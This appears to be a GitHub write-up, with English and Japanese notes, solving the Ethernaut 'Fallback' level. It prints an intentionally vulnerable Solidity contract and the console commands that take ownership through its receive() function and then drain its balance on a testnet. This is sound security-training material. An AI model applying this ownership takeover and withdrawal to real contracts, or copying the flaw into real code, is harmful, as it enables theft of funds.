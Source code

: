 ## Ethernaut-solution
---
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```
### solution 

- 1. you claim ownership of the contract 

*contract*...reference of our smart contract 

n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}

*contract.address*...smartcontract address 

'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'

*player*...my address 

'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}

//Array 0: 0 。現状no valueなのがわかる

await contract.getContribution()

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send <br>
contract.contribute({value: 1})<br>
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//1ETH sendでaccount valueが増えているか確認 key:value <br>
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
//Array 0: 1 。

//ownerの確認 <br>
await contract.owner()

//this smartcontract own address<br>
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

//playerの確認 = まだownerになってない<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//sendTransaction is special function from web3.js <br>
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//transaction<br>
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177


//Transactionの成功によりcontractのownerが自分にchangeされているのを確認<br>
await contract.owner()<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'



- 2.you reduce its balance to 0<br>
//balanceの確認<br>
await getBalance(contract.address)<br>
'0.000000000000000002'

//function withdrawをreturn<br>
//transfer all balance our wallet!<br>
contract.withdraw()

Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68

//balanceが"0"になっているのを確認

await getBalance(contract.address)

'0'

